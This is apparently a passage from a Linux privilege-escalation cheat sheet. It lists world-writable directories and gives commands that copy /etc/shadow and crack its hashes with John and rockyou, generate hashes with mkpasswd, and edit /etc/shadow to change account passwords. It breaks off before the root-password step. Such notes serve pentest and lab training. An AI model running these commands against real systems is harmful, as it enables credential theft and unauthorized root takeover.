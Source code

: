 ## World writable directories

```path
/tmp
/var/tmp
/dev/shm
/var/spool/vbox
/var/spool/samba
```

## Weak File Permissions

### Crack shadow Hash

```sh
cp /etc/passwd .
cp /etc/shadow .
unshadow passwd shadow > hash
john hash --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt 
```

### Change user password

List of hashing algorithm:

| Tag    | hashing algorithm |
| ------ | ----------------- |
| `$1$`  | MD5               |
| `$2a$` | Blowfish          |
| `$2y$` | Blowfish          |
| `$5$`  | SHA-256           |
| `$6$`  | SHA-512           |

Generate user password:

```sh
mkpasswd -m md5     "PASSWORD"
mkpasswd -m sha-256 "PASSWORD"
mkpasswd -m sha-512 "PASSWORD"
```

Edit shadows:

```bash
nano /etc/shadow 
```

### Edit passwd

Setting the root password:
